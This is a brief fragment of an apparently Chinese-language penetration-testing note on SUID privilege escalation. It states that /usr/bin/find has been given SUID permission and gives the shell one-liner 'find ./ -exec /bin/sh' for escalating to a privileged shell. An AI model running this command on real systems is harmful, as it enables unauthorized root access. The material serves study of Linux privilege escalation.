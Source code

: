 ![image-20231013194252035](./imgs/image-20231013194252035.png)

此时，/usr/bin/find 就具备了SUID 权限

#### SUID提权

```bash
find ./ -exec '/bin/sh' \;
```

